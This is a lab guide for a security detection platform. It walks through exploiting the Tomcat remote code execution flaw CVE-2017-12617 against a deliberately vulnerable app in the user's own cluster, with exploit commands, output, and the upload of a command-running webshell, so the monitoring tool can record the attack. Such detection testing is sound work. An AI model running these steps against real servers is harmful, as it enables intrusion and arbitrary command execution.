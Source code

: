 # Scenario: Detect Tomcat RCE

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

If you need to extract the exploits unzip with the password `virus`:

```sh
$ cd ${ONEPATH}
$ unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
$ pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Checking if app server is vulnerable

Now you can check to see if the tomcat server is vulnerable.
If it is you should see something similar to the following:

```sh
$ cd ${ONEPATH}/exploits/tomcat-rce/
$ python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Poc Filename  Poc.jsp
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com it's Vulnerable to CVE-2017-12617
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp
```

If you point a browser at <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp> you should get a test page with a bunch of "A" char's - that shows the exploit worked.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-01.png "Poc")

### Inject the exploit and run commands in the container from browser 

Next, inject the exploit and just hit `ENTER` at the shell prompt that comes up. (Ignore the error afterward)

```sh
$ python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com -p pwn
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ 
```

Either in the shell or from within your browser <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/pwn.jsp> test some commands like `whoami` or `dpkg -l`.

Your browser should present you a blank page with a form containing single field and a `Run` button. Type any Linux command you want and submit the form. The results will populate the page.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-02.png "Exploit")
